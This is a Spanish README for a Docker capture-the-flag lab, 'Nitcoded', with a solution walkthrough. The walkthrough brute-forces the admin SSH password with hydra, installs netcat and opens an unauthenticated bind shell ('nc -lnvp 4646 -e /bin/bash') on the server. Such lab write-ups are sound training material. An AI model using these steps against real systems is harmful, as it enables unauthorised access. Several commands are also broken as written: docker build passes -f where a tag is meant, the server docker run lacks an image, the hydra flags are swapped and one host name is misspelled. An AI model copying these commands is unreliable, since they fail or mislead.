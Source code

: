 # Nitcoded

- [1. Descripción](#1.-descripción)
- [2. Instalación y despliegue](#2.-instalación-y-despliegue)
- [2.1. Despliegue manual](#2.1.-despliegue-manual)
- [2.2. Despliegue atomático](#2.2.-despliegue-atomático)
- [3. Descripción del laboratorio](#3.-descripción-del-laboratorio)
- [4. Resolución del laboratorio](#4.-resolución-del-laboratorio)
- [4.1. Cracking de credenciales](#4.1.-cracking-de-credenciales)
- [4.2. Sesión interactiva](#4.2.-sesión-interactiva)
- [4.3. Configuración del servidor HTTP](#4.3.-configuración-del-servidor-http)
- [4.4. Recepción de archivos](#4.4.-recepción-de-archivos)
- [4.5. Obtención de la flag](#4.5.-obtención-de-la-flag)

## 1. Descripción

Esta laboratorio es una simulación de un entorno cliente-servidor, en el cual se profundizará en la configuración de servidores HTTP y automatización de tareas. Utiliza Docker para simular dos servidores, cada uno con configuraciones específicas destinadas a desafiar al usuario a utilizar una variedad de herramientas y técnicas de administración.

## 2. Instalación y despliegue

Antes de iniciar el laboratorio, asegúrate de tener Docker instalado en tu sistema. Si no tienes Docker, puedes instalar siguiendo las instrucciones en el sitio oficial de Docker para [Windows](https://docs.docker.com/docker-for-windows/install/), [Mac](https://docs.docker.com/docker-for-mac/install/) o [Linux](https://docs.docker.com/engine/install/).
Para el despliegue, tanto manual como automático, será neceasrio crear una red en Docker de tipo _bridge_:

```bash
docker network create nitcoded
```

## 2.1. Despliegue manual

Para desplegar manualmente el laboratorio, deberás clonar este repositorio y ejecutar los siguientes comandos Docker para su lanzamiento:

```bash
git clone https://github.com/kradbyte/elementals-labs.git
docker build -f kradbyte/nitcoded:server -f Dockerfile.server elementals-labs/7-Nitcoded 
docker build -f kradbyte/nitcoded:client -f Dockerfile.client elementals-labs/7-Nitcoded
docker run -d --name nitcoded-server --network nitcoded -p [ServerPort]:22 -p [ServerPort]:4646
docker run -d --name nitcoded-client --network nitcoded kradbyte/nitcoded:client
```

No olvides cambiar los `ServerPort` por los puertos que se expondrán para los servicios SSH y el puerto libre para otro servicio detallado más adelante.

## 2.2. Despliegue atomático

Para desplegar el laboratorio atomáticamente bastará con ejecutar los siguientes comandos:

```bash
docker run -d --name nitcoded-server --network nitcoded -p [ServerPort]:22 -p [ServerPort]:4646
docker run -d --name nitcoded-client --network nitcoded kradbyte/nitcoded:client
```

No olvides cambiar los `ServerPort` por los puertos que se expondrán para los servicios SSH y el puerto libre para otro servicio detallado más adelante.

> **Nota**: No se recomienda cambiar el nombre de los contenedores, ya que hay configuraciones internas que funcionan con la resolución de los DNS de los contenedores, por lo que solo es posible cambiar el nombre de los contenedores si cambiamos las configuraciones también.

## 3. Descripción del laboratorio

**Description**
Pato va a enviar cerca de 100 archivos al servidor por HTTP, así que debes ingresar al servidor con el rol administrador y preparar todo para que Pato pueda enviar sus archivos.

**Target**
Configura un servidor HTTP.

**Steps**
- Ingresa al servidor
- Configura el servidor HTTP.
- Espera y gestiona los archivos recibidos.
- Descifra la flag en los archivos recibidos.

**Grants**
- La flag se encuentra segmentada en todos los archivos que envía Pato, deberás buscar la diferencia entre todos para encontrar la flag.
- Para el servidor HTTP no es necesario colocarle contraseña, dado que Pato hace un curl sin contraseña, que si bien no es seguro es más práctico por ser una red interna.
- El puerto 4646 está expuesto para cualquier uso.

## 4. Resolución del laboratorio

### 4.1. Cracking de credenciales

Primero deberemos crackear las credenciales de la SSH para acceder al servidor. La descripción nos proporciona información acerca de que nuestro rol es de administrador, por lo que podremos ingresar como _admin_, por lo que ahora deberemos buscar la contraseña con herramientas como _hydra_. Como diccionario podremos utilizar algún diccionario de [SecList](https://github.com/danielmiessler/SecLists/blob/master/Passwords/500-worst-passwords.txt).

```bash
hydra -L admmin -p /ruta/a/tu/diccionario.txt ssh://ServerIP:ServerPort
```

No olvides cambiar `ServerIP` y `ServerPort` por la IP del servidor y el puerto por el que corre la SSH (en caso de haber configurado SSH en un puerto distinto al 22).

### 4.2. Sesión interactiva

Cuando hayamos descubierto la contraseña e intentemos hacer la conexión al servidor por SSH, la sesión se cerrará y nos impedirá obtener la consola interactiva, sin embargo, podremos ejecutar comandos por SSH. Para poder obtener la consola interactiva podremos configurar una _bind shell_ instalando Netcat primero:

```bash
ssh admin@ServerIP sudo apt-get install -y netcat-traditional
```

No olvides reemplazar `ServerIP` por la IP del servidor.
Una vez hayamos instalado NetCat podremos ponernos en escucha por el puerto 4646 que estaba libre en el despliegue del contenedor:

```bash
ssh admin@ServerIP nc -lnvp 4646 -e /bin/bash
```

En nuestra máquina deberemos abrir otra terminal y conectarnos por Netcat:

```bash
nc ServerIP 4646
```

Otra forma en que podremos ganar la consola interactiva será ejecutando lo siguiente:

```bash
ssh admin@SererIP exec bash -i
```

### 4.3. Configuración del servidor HTTP

Para configurar el servidor HTTP podrías, incluso, levantarlo con Python:

```bash
python3 -m http.server
```

Sin embargo, nuestro servidor debe tener capacidades POST/PUT, dado que el cliente enviará archivos al servidor, por lo que podremos buscar alguna alternativa como un script en Python que acepte POST/PUT. Recuerda que HTTP se monta en el puerto 80.

### 4.4. Recepción de archivos

Cuando hayamos configurado el servidor correctamente, el cliente comenzará a enviar los archivos en lotes de 10 cada 3 minutos, por lo que podremos buscar una forma de gestionar estas recepciones, dado que para recibir todos los archivos tardará cerca de 30 minutos.
Se sugiere implementar un script en bash que guarde los arhivos en alguna ubicación y vaya renombrando los archivos recibidos, junto con una tarea cron para que el proceso se realice automáticamente.

> **Nota**: Si el cliente tienen algún error al enviar los archivos se reiniciará el índice de envío de archivos; es decir, si se enviaron los archivos 20-30 y paramos el servidor, el cliente intentará enviar todos los archivos nuevamente desde el primero. Podremos ver los logs de los envíos con el siguiente comando:

```bash
docker exec nitcoded-client cat /root/sender.log
```

### 4.5. Obtención de la flag

Una vez hayamos obtenido todos los archivos (90 en total) deberemos realizar la lectura de cada uno, ya que al descrifrarlos encontraremos un caracter diferente en cada archivo que deberás compilar para obtener una frase encriptada en base64 que contendrá la flag. Esto también se puede automatizar con un script.

